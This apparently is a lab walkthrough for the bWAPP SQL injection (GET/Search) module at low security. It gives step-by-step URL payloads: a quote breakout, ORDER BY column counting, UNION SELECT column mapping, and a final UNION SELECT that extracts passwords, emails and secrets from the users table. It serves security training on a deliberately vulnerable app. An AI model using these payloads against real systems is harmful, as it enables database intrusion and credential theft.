



# Module: SQL Injection (GET/Search) — Low Security
Step 1: Set security level to low.
Step 2: 
Normal Request
```bash
http://ip_address/bWAPP/sqli_1.php?title=iron+man&action=search
```

Result: Normal application behavior — searching a movie title returns matching results.

Step 3:
Test for String Context (Quote Breakout)
```bash
http://ip_address/bWAPP/sqli_1.php?title=iron+man'&action=search
```


Step 4:
Find column count
```bash
http://ip_address/bWAPP/sqli_1.php?title=iron+man'order by 7-- -&action=search
```

Step 5:
Map Columns to visible output
```bash
http://ip_address/bWAPP/sqli_1.php?title=iron+man'union+select 1,2,3,4,5,6,7-- -&action=search
```


Step 6:
Extract Details 
```bash
http://ip_address/bWAPP/sqli_1.php?title=iron+man'union+select 1,password,email,4,secret,6,7+from+bWAPP.users-- -&action=search
```


